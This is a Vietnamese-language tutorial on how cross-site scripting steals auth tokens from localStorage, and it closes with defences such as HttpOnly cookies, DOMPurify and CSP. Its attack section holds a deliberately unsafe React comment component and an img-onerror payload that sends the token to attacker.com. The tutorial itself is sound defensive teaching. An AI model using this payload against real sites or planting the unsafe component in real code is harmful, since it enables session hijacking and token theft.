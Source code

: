 <br>

```
## Màn đăng nhập lưu vào localStorage
```
![[Màn đăng nhập lưu vào localStorage.png]]
## 1️⃣ Giới thiệu

XSS (Cross-Site Scripting) là một kiểu tấn công phổ biến, trong đó kẻ tấn công có thể chèn và thực thi mã JavaScript độc hại trên trang web của nạn nhân. Một trong những rủi ro lớn nhất của XSS là khả năng đánh cắp dữ liệu từ `localStorage` 🚨.

## 2️⃣ Ví dụ tấn công cụ thể

Giả sử một website có một form bình luận không được lọc dữ liệu (sanitize) đúng cách:

```jsx
// Component bình luận không an toàn
const Comment = ({ text }) => {
  return <div dangerouslySetInnerHTML={{ __html: text }} />;
};
```

Kẻ tấn công có thể gửi một bình luận chứa mã JavaScript độc hại như sau:

```js
<img src="x" onerror="
  const token = localStorage.getItem('auth_token');
  fetch('https://attacker.com/steal', {
    method: 'POST',
    body: JSON.stringify({token})
  });
"/>
```

## 3️⃣ Cách thức tấn công

1. Kẻ tấn công đăng bình luận chứa mã XSS lên website.
    
2. Khi người dùng khác mở trang có bình luận này, trình duyệt sẽ thực thi đoạn mã độc.
    
3. Script lấy dữ liệu từ `localStorage`, ví dụ `auth_token`.
    
4. Token này được gửi về server của kẻ tấn công.
    
5. Kẻ tấn công có thể sử dụng token để mạo danh người dùng.
    

### 🔁 Flow tấn công

```java
Attacker  -->  Website  -->  LocalStorage  -->  Attacker Server
                     ⬇
               Script chạy
                     ⬇
           Lấy auth_token
                     ⬇
         Gửi về server attacker
                     ⬇
        Kẻ tấn công sử dụng token
```

## 4️⃣ Cách phòng tránh XSS

### ✅ Sử dụng **HttpOnly Cookies** thay vì `localStorage`

- Cookies có thuộc tính `HttpOnly` không thể bị truy xuất bằng JavaScript.
    
- Điều này ngăn chặn việc đánh cắp token thông qua XSS.
    

### ✅ **Sanitize input từ người dùng**

- Dùng thư viện như `DOMPurify` để làm sạch dữ liệu đầu vào.
    

```jsx
import DOMPurify from 'dompurify';
const sanitizedText = DOMPurify.sanitize(userInput);
```

### ✅ **Implement CSP (Content Security Policy)**

- Hạn chế script không đáng tin cậy bằng CSP header:
    

```js
Content-Security-Policy: default-src 'self'; script-src 'self';
```

### ✅ **Validate và encode output**

- Dùng `textContent` thay vì `innerHTML`:
    

```js
document.getElementById('comment').textContent = userInput;
```

### ✅ **Sử dụng CSRF Token**

- Ngăn chặn kẻ tấn công thực hiện yêu cầu trái phép với CSRF token.
    

## 5️⃣ Kết luận

XSS là một lỗ hổng nguy hiểm có thể dẫn đến đánh cắp thông tin quan trọng như `auth_token`. Việc sử dụng các biện pháp phòng tránh trên là **bắt buộc** để bảo vệ người dùng.

Bạn muốn tìm hiểu thêm về cách implement các biện pháp bảo vệ không? 🚀

```
## Màn tấn công vào localStorage
```

![[Màn tấn công vào localStorage.png]]

